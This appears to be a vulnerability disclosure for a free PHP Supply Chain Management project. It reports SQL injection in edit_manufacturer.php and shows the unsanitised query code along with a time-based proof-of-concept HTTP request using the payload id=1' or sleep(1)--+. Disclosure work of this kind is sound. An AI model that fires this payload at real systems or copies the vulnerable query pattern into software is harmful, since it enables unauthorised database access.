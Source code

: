 # Supply-Chain-Management-in-php-sql

https://code-projects.org/supply-chain-management-in-php-css-js-and-mysql-free-download/

## NAME OF AFFECTED PRODUCT(S)

**Supply Chain Management**

## Vendor Homepage

https://code-projects.org/supply-chain-management-in-php-css-js-and-mysql-free-download/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

edit_manufacturer.php

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/adc6862d-bae0-4b2e-8033-37ac6e72d9c2

## PROBLEM TYPE

network remote.

## Vulnerability Type

sql injection

## Root Cause

edit_manufacturer.php file, SQL injection is used to obtain database information.

## Impact

## **Description of the vulnerability**

### edit_manufacturer.php

source code，the  id parameter is not filtered and concatenated into the SQL statement.                                                                                                                                                                                                                                                                                                                                                                                                                                                               

```php
			$id = $_GET['id'];
			$query_selectManDetails = "SELECT * FROM manufacturer WHERE man_id='$id'";
```
![image](https://github.com/user-attachments/assets/46bdf10f-e2e6-49be-a282-1217049f6928)

## **Vulnerability recurrence**

### **POC**

```
GET /scm-master/admin/edit_manufacturer.php?id=1' or sleep(1)--+ HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="127", "Not)A;Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=kbl2la41fb9amsrdcps7i0c26r
Connection: keep-alive

```
![image](https://github.com/user-attachments/assets/1e58be0c-aee8-46ee-8ee9-0c4c842d2dad)



